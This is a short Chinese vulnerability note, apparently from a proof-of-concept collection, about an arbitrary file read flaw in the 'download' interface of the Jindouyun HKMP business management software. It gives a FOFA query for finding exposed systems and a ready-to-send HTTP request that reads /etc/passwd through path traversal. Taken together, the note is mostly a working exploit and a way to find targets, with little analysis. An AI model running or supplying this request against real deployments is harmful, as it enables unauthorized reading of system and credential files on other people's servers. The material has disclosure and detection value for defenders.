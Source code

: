 **fofa**

```
body="金斗云 HKMP"
```

**一、漏洞简述**

金斗云 HKMP智慧商业软件是一款功能强大、‌易于使用的智慧管理系统，‌通过智能化的管理工具，‌帮助企业实现高效经营、‌优化流程、‌降低成本，‌并提升客户体验。‌无论是珠宝门店、‌4S店还是其他零售、‌服务行业，‌金斗云都能提供量身定制的解决方案，‌助力企业实现数字化转型和智能化升级。‌该软件帮助企业提升业绩、‌优化流程、‌降低成本，‌并增强客户体验。其接口download存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /admin/log/download?file=/etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip
Connection: close


```

